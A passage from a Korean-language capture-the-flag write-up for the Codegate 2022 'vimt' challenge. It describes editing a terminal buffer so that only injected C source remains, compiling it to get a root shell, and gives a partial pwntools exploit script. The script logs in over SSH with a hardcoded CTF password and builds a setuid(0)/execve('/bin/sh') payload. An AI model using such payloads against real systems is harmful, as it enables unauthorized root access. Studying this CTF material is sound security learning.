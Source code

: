 ![8.png](/images/codegate22-vimt/8.png)

이후 "set y 1" 커맨드로 커서의 위치를 `map[1][41]` 로 옮긴 후, 동일하게 아무 문자 하나를 입력하고 Backspace를 8번 입력하면 `map[1]` 의 모든 문자를 지울 수 있습니다. 이제 의도했던 대로 정확히 소스 코드만 입력되었습니다. "compile" 커맨드로 바이너리를 컴파일한 후 실행하면 root 권한의 셸을 획득하게 됩니다.

![9.png](/images/codegate22-vimt/9.png)

다음은 위의 내용을 바탕으로 작성한 익스플로잇 코드입니다. 4행은 `sshpass` 커맨드로 SSH 접속을 수행하고, 35행은 서버에서 `stty` 커맨드로 가상 터미널의 가로와 세로 크기를 지정합니다. 입력할 코드를 전송하는 과정에서 순서가 꼬여 실패하는 경우가 있는데, 익스플로잇 코드를 몇 번 실행하면 root 권한의 셸을 획득할 수 있습니다.

```python
#!/usr/bin/python3
from pwn import *

r = process("sshpass -e ssh -tt ctf@localhost -p 1234 'bash -i'",
            shell=True, env={"SSHPASS": "ctf1234_smiley"})
context.log_level = "debug"

def set_axis(n):
    r.send(b"\x1b")
    r.sendline(b"set y " + str(n).encode())


def input_key(c):
    for i in range(8):
        r.send(p8(c))
    set_axis(0)


def clean():
    set_axis(0)
    r.send(b"a")
    r.send(b"\x7f")
    set_axis(1)
    r.send(b"a")
    for i in range(8):
        r.send(b"\x7f")


def compile():
    r.send(b"\x1b")
    r.sendline(b"compile")


def main():
    r.sendlineafter(b"~$", b"stty cols 47 rows 4")
    r.sendlineafter(b"~$", b"./app")

    payload = b"main() {setuid(0);execve(\"/bin/sh\",0,0);}"
```
